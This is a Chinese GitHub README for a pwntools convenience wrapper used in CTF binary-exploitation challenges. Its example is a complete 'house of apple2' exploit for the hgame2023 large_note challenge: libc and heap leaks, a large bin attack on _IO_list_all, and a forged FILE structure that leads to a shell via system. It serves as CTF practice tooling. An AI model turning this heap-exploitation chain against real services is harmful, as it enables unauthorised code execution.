 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单：

- 把pwntools.py放到`~/.local/lib/python3.X/site-packages`, 即Python导包的路径
- 放在执行路径的同级目录下

随便写了一个经典的`house of apple2`的脚本用例来参考一下，题目是`hgame2023 week3 large_note`

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

# 初始化程序
init("./vuln")

# 获取需要使用的io、elf和libc对象
io: tube = pwnio.io
elf: ELF = pwnio.elf
libc: ELF = pwnio.libc

cmd = lambda idx: sla(">", str(idx))


def add(idx, size=0x500):
    cmd(1)
    sla("Index: ", str(idx))
    sla("Size: ", str(size))


def free(idx):
    cmd(2)
    sla("Index: ", str(idx))


def edit(idx, content):
    cmd(3)
    sla("Index: ", str(idx))
    sa("Content: ", content)


def show(idx):
    cmd(4)
    sla("Index: ", str(idx))


def pack(pos, ptr):
    return (pos >> 12) ^ ptr


def build_fake_file(addr, vtable, _wide_data):
    # flag = 0xFBAD2887
    # fake_file = p64(flag)  # _flags
    # fake_file += p64(addr)  # _IO_read_ptr
    # 不用上面的flag和_IO_read_ptr是因为chunk里不可控上面两个字段
    fake_file = b""
    fake_file += p64(addr)  # _IO_read_end
    fake_file += p64(addr)  # _IO_read_base
    fake_file += p64(addr)  # _IO_write_base
    fake_file += p64(addr + 1)  # _IO_write_ptr
    fake_file += p64(addr)  # _IO_write_end
    fake_file += p64(addr)  # _IO_buf_base
    fake_file += p64(0)  # _IO_buf_end
    fake_file += p64(0)  # _IO_save_base
    fake_file += p64(0)  # _IO_backup_base
    fake_file += p64(0)  # _IO_save_end
    fake_file += p64(0)  # _markers
    fake_file += p64(0)  # _chain   could be a anathor file struct
    fake_file += p32(1)  # _fileno
    fake_file += p32(0)  # _flags2
    fake_file += p64(0)  # _old_offset
    fake_file += p16(0)  # _cur_column
    fake_file += p8(0)  # _vtable_offset
    fake_file += p8(0x10)  # _shortbuf
    fake_file += p32(0)
    fake_file += p64(0)  # _lock
    fake_file += p64(0)  # _offset
    fake_file += p64(0)  # _codecvt
    fake_file += p64(_wide_data)  # _wide_data
    fake_file += p64(0)  # _freeres_list
    fake_file += p64(0)  # _freeres_buf
    fake_file += p64(0)  # __pad5
    fake_file += p32(0)  # _mode
    fake_file += p32(0)  # unused2
    fake_file += p64(0) * 2  # unused2
    fake_file += p64(vtable)  # vtable
    return fake_file


"""
#! large bin leak heap address
#! large bin attack --> fake io --> house of apple2
#! exec system("  sh;")
"""

add(0, 0x508)  # fake_wide_data
add(1, 0x550)  # fake_chain
add(2)
add(3, 0x540)
add(4)

#! leak libc base
free(1)
edit(1, "a")
show(1)
fd_bk = leak(l64() - 0x61, "fd_bk")
libc.address = leak(fd_bk - 0x1E3C00, "libc")
edit(1, b"\x00")

#! to large bin
add(5, 0x600)  # fake_jump

#! large leak fd_next to get heap base
edit(1, b"a" * 15 + b"b")
show(1)
ru("b")
heap_base = leak(uu64(r(6)) - 0x7A0, "heap_base")
edit(1, p64(fd_bk) * 2)

#! free large_chunk2 into unsortedbin
free(3)

#! modify largebin[0]->bk_nextsize -> tagert_addr-0x20
_IO_list_all_chain = libc.address + 0x1E4648
info(_IO_list_all_chain, "_IO_list_all_chain")
edit(1, p64(fd_bk) * 2 + p64(heap_base + 0x7A0) + p64(_IO_list_all_chain - 0x20))
info(heap_base + 0x7A0, "fake_IO")
#! large bin attack : chain -> heap_base + 0x7a0
add(6)

#! edit _flags -> "  sh;"
edit(0, b"\x00" * 0x500 + b"  sh;")

#! bulid fake_wide_data
fake_wide_data = heap_base + 0x2A0
info(fake_wide_data, "fake_wide_data")

#! edit vtable -> _IO_wfile_jumps
#! edit fp -> _wide_data = fake_wide_data
_IO_wfile_jumps = libc.sym["_IO_wfile_jumps"]
edit(1, build_fake_file(0, _IO_wfile_jumps, fake_wide_data))

#! edit fake_wide_data -> _IO_write_base = 0
#! edit fake_wide_data -> _IO_buf_base = 0
#! edit fake_wide_data -> _wide_vtable = fake_jump
#! edit fake_jump -> doallocate = system
fake_jump = heap_base + 0x1C70
_wide_data = {0x18: 0, 0x30: 0, 0xE0: fake_jump}
edit(0, flat(_wide_data))
edit(5, p64(libc.sym["system"]) * 12)

dbg();pau()     # 如果是远程就不会执行debug调试
cmd(5)

ia()    # 交互
```

## 更新日志
- 2022.9.4
  - 配置了部分常用函数
- 2022.9.22
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法
- 2022.11.19
  - 新增`libcpatcher.py`文件，基于patchelf一键修改elf文件的libc
  - 新增了leak函数，使用leak获取地址的同时在控制台打印泄露的地址
  - 更新了i16和i10函数，可以传入bytes或者str类型
  - 修改默认开启过滤 `Text is not bytes` 的警告
